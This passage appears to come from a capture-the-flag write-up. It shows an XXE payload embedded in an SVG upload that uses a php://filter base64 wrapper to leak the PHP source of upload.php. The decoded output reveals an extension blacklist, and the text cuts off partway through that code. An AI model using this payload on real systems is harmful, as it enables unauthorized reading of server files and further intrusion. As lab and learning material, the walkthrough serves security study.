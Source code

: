 
### Source Code Disclosure via XXE

#### Reasoning

Since I could not directly read the flag file (its exact name was unknown), the next logical step was to analyze files related to the upload functionality.  

By retrieving source code, I aimed to understand how uploaded files were processed, where they were stored, and how validation checks were applied.
  
#### Payload

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```

![](screenshots/8.png)

**Result**:
The response contained Base64-encoded PHP source, which I decoded:

```php
<?php
require_once('./common-functions.php');

// uploaded files directory
$target_dir = "./user_feedback_submissions/";

// rename before storing
$fileName = date('ymd') . '_' . basename($_FILES["uploadFile"]["name"]);
$target_file = $target_dir . $fileName;

// get content headers
$contentType = $_FILES['uploadFile']['type'];
$MIMEtype = mime_content_type($_FILES['uploadFile']['tmp_name']);

// blacklist test
if (preg_match('/.+\.ph(p|ps|tml)/', $fileName)) {
    echo "Extension not allowed";
    die();
```